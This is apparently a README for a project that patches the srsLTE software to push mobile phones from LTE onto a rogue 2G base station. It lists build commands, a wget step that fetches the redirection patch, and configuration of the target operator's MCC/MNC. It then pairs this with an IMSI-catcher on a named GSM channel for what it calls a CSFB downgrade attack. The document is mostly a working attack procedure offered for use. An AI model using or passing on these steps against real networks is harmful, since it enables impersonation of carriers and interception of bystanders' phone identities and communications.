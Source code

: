 # srslte_to_gsm
On ubuntu 20.04+
```bash
sudo apt-get install build-essential cmake libfftw3-dev libmbedtls-dev libboost-program-options-dev libconfig++-dev libsctp-dev
git clone https://github.com/srslte/srsLTE
cd srsLTE
wget https://raw.githubusercontent.com/bbaranoff/srslte_to_gsm/main/redirection_srslte_gsm.patch
patch -p1 < redirection_srslte_gsm.patch
mkdir build
cd build
cmake ..
make -j$(nproc)
sudo make install
sudo ldconfig
sudo  ./srsran_install_configs.sh user
sudo nano /root/.config/srsran/enb.conf
sudo nano /root/.config/srsran/epc.conf
```
Set mnc mcc as target
Set a 2G IMSI-Catcher on arfcn 871 with mnc mcc as target
1° Terminal
```
sudo srsepc
```
2° Terminal
```
sudo srsenb
```
Wait and you are done !

N.B.: Not always working !!
The UE has to had already been in GSM in active session so to make test switch to GSM then reswitch to LTE manually on the UE then you can try this CSFB attack.
